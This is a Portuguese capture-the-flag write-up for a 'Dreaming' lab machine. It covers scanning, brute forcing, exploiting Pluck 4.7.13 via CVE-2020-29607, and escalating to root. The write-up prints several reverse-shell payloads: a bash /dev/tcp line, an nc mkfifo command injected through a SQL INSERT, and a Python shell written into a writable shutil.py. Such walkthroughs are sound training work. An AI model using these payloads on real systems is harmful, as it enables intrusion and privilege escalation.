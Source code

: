 # _**Dreaming CTF**_
![](dream.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Nosso primeiro scan não retornou algo de útil  
Vamos adicionar a flag ```-Pn``` para tentarmos novamente  

![](scan_nmap2.jpg)

Temos um resultado diferente  
Um website, vamos investigar  
Procurando por pistas com as ferramentas de desenvolvedor, nada foi encontrado  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar por diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos investigar _/app_  
Temos uma segunda página  
Investigando com as ferramentas de desenvolvedor, temos dois novos diretórios
* **/login.php**
* **/?file=dreaming**

## _**Ganhando acesso**_

Vamos investigar primeiro _/login.php_  
Podemos tentar dois métodos, brute force e SQL Injection  
Primeiro, vamos tentar brute force
> ```bash
> hydra -l '' -P ../wordlists/rockyou.txt [ip_address] http-post-form "/app/pluck-4.7.13/login.php:password=^PASS^&login=Log+in:Password incorrect."
> ```
![](hydra_result.jpg)

Após algumas poucas tentativas, fomos barrados de tentar realizar login  
Parece que por este método não iremos conseguir  
Com SQL Injection também não tivemos muito resultado  
Voltando para _/?file=dreaming_, podemos tentar realizar _fuzzing_ com <mark>ffuf</mark>  
> ```
> ffuf -u "http://[ip_address]/app/pluck-4.7.13/?file=FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 404
> ```
![](ffuf_result.jpg)

Temos alguns resultados  
Antes de conferi-los, vamos utilizar <mark>Burpsuite</mark> para investigar algumas requisições  
Parece que nas requisições, temos um Cookie  

![](burp_result.jpg)

Pesquisando, não obtive informações muito relevantes, além do cookie mudar dependendo de algumas requisições  
Tentando com os resultados de <mark>ffuf</mark>, não foi possível obter nada  
Parece que qualquer tentativa de acessar um arquivo cai nessa mensagem  

![](hack_result.jpg)  

Buscando por maneiras de explorar pela versão do **Pluck**, encontramos a CVE-2020-29607(https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-29607)  
Procurando pelo exploit, realizamos o _download_ e tentamos executar, mas não foi obtido nenhum sucesso, não sabemos a senha  
Porém, podemos tentar algumas comuns, como:
* password
* password123
* admin
* administrator
Um sucesso! A senha **password** funcionou  

![](exploit.jpg)

Vamos melhorar isso obtendo um _reverse shell_  
> ```bash
> bash -c 'bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1'
> ```

## _**Escalando privilégios**_
Vamos transferir <mark>LinPEAS</mark> para a máquina-alvo e executar para encontramos uma forma de escalação  
Não se esqueça de ```python3 -m http.server```
> ```bash
> wget http://[ip_address]:[port]/linpeas.sh -O /tmp/linpeas.sh
> ```

Tentando de algumas maneiras, nenhum sucesso foi obtido  
Investigando outros arquivos nos usuários, encontramos um suspeito em _/opt_: **test.py**  
Lendo o arquivo, temos uma senha para o que parece ser o usuário **Lucien**  
Vamos testar via SSH
Temos login com sucesso!  
Vamos obter a primeira flag e continuar nossa enumeração  
Procurando por maneiras de exploração, executamos o comando ```sudo -l```  

![](sudo_l.jpg)

Parece que podemos executar algumas coisas como o usuário **death**  
Este script estabelece uma conexão com o banco de dados MySQL, visando o banco de dados da biblioteca  
Se pudermos manipular o valor de qualquer uma dessas variáveis, podemos executar o comando por meio da substituição de comandos  
Essa técnica substitui o próprio comando pela saída de outro comando entre $(), permitindo que o Bash execute o comando e substitua sua saída padrão conforme necessário  

![](sql_expl.jpg)

Podemos tentar enumrar algumas coisas do usuário **Lucien**  

![](cat_home.jpg)

Um comando SQL!  
Vamos copiá-lo e executar  
Temos login SQL  
Procurando por informações relevantes através de comandos, mas nada foi encontrado  
Nesta parte, fiquei totalmente perdido e fui procurar por soluções na Internet  
Encontrei que podemos inserir um comando para obter _reverse shell_  
Então, executamos o comando abaixo
> ```bash
> INSERT INTO dreams (dreamer, dream) VALUES ('s4cript', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $[ip_address] $[port] >/tmp/f)');
> ```
![](sql_injection_exe.jpg)

Primeiro, ligamos nosso ```netcat``` e em seguida, executamos o comando ```sudo -u death /usr/bin/python3 /home/death/getDreams.py```  

![](death_login.jpg)

Agora somos o usuário **death**, vamos atrás de nossa flag e uma maneira de escalar privilégios para **morpheus**  
Lembro-me de um arquivo chamar a atenção: **restore.py**  

![](restore.jpg)

Investigando como é possível explorar, encontramos a seguinte solução  
O script Python utiliza a biblioteca _shutil_ e, como sabemos, temos acesso de gravação a essa biblioteca  
Vamos injetar algum código Python malicioso na biblioteca  
Quando o script for executado e importar essa biblioteca, ele acionará a execução do nosso código Python  
> ```bash
> echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'\")" > /usr/lib/python3.8/shutil.py
> ```
![](morpheus_login.jpg)

Agora, vamos atrás da flag  
Executando ```sudo -l```, temos o seguinte  

![](sudo.jpg)

Basta um ```sudo -i``` e temos _root_
Também pegamos a flag de **morpheus**
